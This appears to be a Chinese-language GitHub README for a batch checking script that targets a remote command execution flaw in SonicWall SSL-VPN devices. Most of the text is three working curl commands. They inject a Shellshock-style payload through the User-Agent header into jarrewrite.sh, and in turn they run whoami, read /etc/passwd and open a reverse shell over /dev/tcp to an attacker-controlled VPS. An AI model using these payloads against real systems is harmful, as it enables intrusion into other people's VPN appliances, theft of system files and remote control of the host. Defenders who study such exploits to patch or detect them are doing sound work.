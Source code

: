 # SonicWallSSL-VPN_RCE
一个简单的SonicWallSSL-VPN远程命令执行批量验证脚本
脚本写得比较简单，主要是对于批量url检测比较实用，单个url检测直接在命令行检测即可，

比如：

curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
